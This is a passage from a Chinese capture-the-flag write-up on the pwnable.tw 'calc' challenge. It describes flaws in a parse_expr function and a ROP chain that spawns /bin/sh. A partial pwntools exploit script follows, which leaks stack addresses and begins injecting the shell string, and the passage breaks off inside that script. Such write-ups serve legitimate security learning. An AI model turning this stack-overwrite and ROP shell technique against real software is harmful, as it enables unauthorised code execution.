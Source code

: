### 发现

经过上面的分析，`parse_expr` 这个函数我主要发现了两个漏洞：

1. 程序在排除被除数不为 0 的条件时，用的判断是被除数字符串不等于 `"0"`；对于这个漏洞，我们可以通过输入 `"00"` 等方式让程序产生除零操作。但是并不知道这个漏洞如何利用；
2. 程序在执行 `eval` 时，必须要满足数字栈中存在大于两个的数字，但是以下原因会导致这个条件并不成立：
   1. 输入字符串的第一个字符为操作符；
   2. 某次的输入数字为 0，这个数字则不会被程序压栈；

下面我们尝试利用第二条的第一个漏洞，就可以改变数字栈的高度，从而达到修改任意地址的目的。

### 利用

我们利用的基本思路是：先泄露栈地址，然后注入字符串 `/bin/sh`，最后构造一个这样的栈：

```
stack-top    |ad1    |0xb    |ad2    |0x0    |adstr    |ad3    |0x0    |ad4
```

其中 `ad1`、`ad2`、`ad3`、`ad4` 是三个通过 `ROP` 技术的到的三个地址，它们分别执行：

```
ad1:    pop %eax; ret;
ad2:    pop %ecx; pop %ebx; ret;
ad3:    pop %edx; ret;
ad4:    int 80h;
```

而其中的 `adstr` 则是之前注入的 `/bin/sh` 的地址。构造了如下的 `exp`：

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import *

class Challenge:
    def __init__(self, local=True):
        self.local = local
        if local:
            self.p = process(['./calc'])
        else:
            self.p = remote("chall.pwnable.tw", 10100)

    def gdb(self):
        assert self.local
        context.terminal = ['tmux', 'splitw', '-h']
        gdb.attach(proc.pidof(self.p)[0], gdbscript="b *get_expr")

    def leak_ebp(self):
        """
        payload: *361
        """
        offset = 0x5a0 / 4 + 1
        self.payload = "*%d\n" % (offset)
        self.p.send(self.payload)

        self.main_ebp = int(self.p.recvline(), 10) & 0xffffffff
        self.calc_ebp = self.main_ebp - 0x20
        self.parse_expr_ebp = self.calc_ebp - 0x5c0
        print("main $ebp:" + hex(self.main_ebp))
        print("calc $ebp:" + hex(self.calc_ebp))
        print("parse_ebp $ebp:" + hex(self.parse_expr_ebp))

    def write_binsh(self):
        """
        payload: *701+1845554944+6845231
        """
        binsh = [u32("/bin"), u32("/sh\0")] # 0x6e69622f, 0x0068732f
```